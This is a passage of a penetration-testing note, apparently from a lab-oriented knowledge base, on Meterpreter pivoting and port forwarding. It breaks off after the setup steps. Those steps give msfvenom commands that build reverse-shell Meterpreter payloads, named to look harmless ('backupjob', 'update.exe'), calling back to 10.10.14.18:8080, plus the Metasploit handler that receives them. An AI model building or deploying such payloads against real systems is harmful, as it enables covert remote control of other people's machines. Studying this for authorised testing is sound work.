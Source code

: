 # Meterpreter Tunneling & Port Forwarding

**Back to:** [[Pivoting, Tunneling and Port Forwarding|Pivoting Index]]
**Related:** [[Remote-Reverse Port Forwarding with SSH|SSH Reverse Forward]], [[SOCKS5 Tunneling with Chisel|Chisel]]

---

## Overview

Metasploit's Meterpreter provides built-in pivoting capabilities through autoroute, portfwd, and SOCKS proxy modules. Essential for Metasploit-centric operations where you already have a Meterpreter session.

**Key Features:**
- autoroute: Route traffic through Meterpreter session
- portfwd: Forward ports (local and reverse)
- SOCKS proxy: Create SOCKS4a proxy
- Integrated with MSF modules

**Use Cases:**
- Already have Meterpreter session
- Need to use MSF modules against internal network
- Want all-in-one MSF solution
- Pivoting without additional tools

---

## Initial Setup

### Step 1: Create Meterpreter Payload for Pivot

```bash
# Linux pivot host
msfvenom -p linux/x64/meterpreter/reverse_tcp \
  LHOST=10.10.14.18 \
  LPORT=8080 \
  -f elf \
  -o backupjob

# Windows pivot host
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=10.10.14.18 \
  LPORT=8080 \
  -f exe \
  -o update.exe
```

### Step 2: Setup Metasploit Handler

```bash
msfconsole -q

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8080
set ExitOnSession false
exploit -j
```
